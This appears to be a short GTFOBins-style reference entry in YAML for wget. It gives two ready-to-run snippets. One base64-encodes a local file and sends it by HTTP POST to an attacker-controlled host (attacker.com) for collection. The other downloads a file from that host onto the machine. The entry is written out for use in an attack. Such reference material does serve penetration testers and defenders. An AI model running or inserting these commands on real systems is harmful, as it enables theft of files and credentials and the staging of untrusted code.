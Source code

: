 ```yaml
---
functions:
  upload:
    - description: Send base64-encoded local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        wget --post-data="d=$(base64 $LFILE | tr -d '\n')" $URL
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        wget $URL -O $LFILE
---
```

